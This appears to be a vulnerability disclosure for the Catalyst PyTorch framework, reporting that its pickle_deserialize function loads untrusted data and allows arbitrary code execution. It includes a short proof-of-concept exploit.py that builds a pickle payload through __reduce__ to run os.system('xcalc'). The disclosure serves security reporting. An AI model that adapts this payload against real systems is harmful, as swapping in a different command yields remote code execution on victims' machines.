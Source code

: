 # Description
Catalyst is a PyTorch framework for Deep Learning research and development. It focuses on reproducibility, rapid experimentation, and codebase reuse so you can create something new rather than write another regular train loop.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install catalyst')
from catalyst.contrib.utils import serialization
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
serialization.pickle_deserialize(dumps)
```
* `pip3 install catalyst`
* `python3 exploit.py`
